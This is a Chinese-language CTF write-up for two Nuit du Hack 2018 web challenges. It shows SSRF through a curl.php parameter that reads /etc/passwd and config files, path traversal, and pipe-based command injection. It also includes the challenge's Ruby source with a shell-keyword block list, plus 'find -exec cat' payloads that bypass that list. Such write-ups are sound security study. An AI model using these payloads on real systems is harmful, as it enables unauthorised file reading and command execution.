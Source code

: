# Nuit du Hack CTF 2018 - Notes

## CoinGame

打開頁面，可以看到有一個搜尋視窗可以放網址做搜尋

![image](./img/yhoLfhS.png)

這裡打 www.google.com ，可以看一下 request

```
GET http://coingame.challs.malice.fr/curl.php?way=www.google.com HTTP/1.1
Host: coingame.challs.malice.fr
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://coingame.challs.malice.fr/curl.php?way=127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

而如果改成 file:///etc/passwd ，可以看到列出密碼，代表有 SSRF

用 Wappalyzer 可以知道是 apache2 

直接打 http://localhost/server-status ，可以看到他列出[系統狀態](./CoinGame/server_status.html)


而在主頁面上可以看到有```DESIGNED BY TOTHEYELLOWMOON```

去 [github](https://github.com/totheyellowmoon/CoinGame) 可以找到


而在一開始的 /etc/passwd 可以看到他有開 tftp 

那在一次利用 ssrf : file:///etc/default/tftpd-hpa
```
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/home/CoinGame" TFTP_ADDRESS="0.0.0.0:69" TFTP_OPTIONS="--secure --create"
```

從這裡我們可以知道他的檔案放在哪裡，然後可以比對github 上那些檔案有哪個不一樣

就可以找到答案

從他的 server 上拉東西可以利用 wget，舉例:
```
$ wget http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/gameAnimationImages/background2.png -O flag.png
```


## Crawl me maybe
> Description:
>
> A website test if a web page validity. You can provide this page by url only. Find a way to find and get the flag.

打開頁面

![image](./img/isUSa0w.png)

如果輸入 http://www.google.com 會得到

![image](./img/bBV3gF8.png)

而如果改輸入 ../../../../../../etc/passwd 就可以看到 passwd (path traversal attacks)
![image](./img/v67XWGd.png)

且可以在底下看到有 /home/challenge


而把 url那改為 |ls 就可以看到底下檔案 (command injection)

而在 /home/challenge/src 下可以看到有 .flag.txt

![image](./img/rDpO1IZ.png)

如果直接輸入 |cat .flag.txt 會顯示偵測到攻擊

到我們先來看一下 CrawlMeMaybe.rb

```ruby
require 'sinatra'
require 'open-uri'
require 'nokogiri'
set: bind, '0.0.0.0'
set: port, 8080 get '/'
do @title = 'Crawl Me Maybe!'
erb: index end post '/result'
do @title = 'Crawl Me Maybe!'
url = params["url"]
if /
sh | dash | bash | rbash | zsh / .match(url) || url.match('flag') || url.match('txt') || url.index('*') != nil || (url.index('|') != nil && !(url.index('cat') != nil || url.index('ls') != nil)) @result = "Attack detected"
erb: error
else begin page = open(url) rescue StandardError => e @result = "Invalide url"
erb: error
else begin page = Nokogiri::HTML(page) { | config | config.strict
}
@result = "Page well formed !"
@content = page.text erb: result rescue Nokogiri::HTML::SyntaxError => e @result = "caught exception: #{e}"
erb: error end end end end
```


接下來就是要想辦法 bypass 了

這裡看其他人  write up 紀錄一下

```
1. url=|find ../../../../../home/challenge/src/ -exec cat {} \;

2. url=|find /home/challenge/src -type f -exec cat {} \;
## 使用 find 搜尋檔案，並用 cat 顯示其內容
```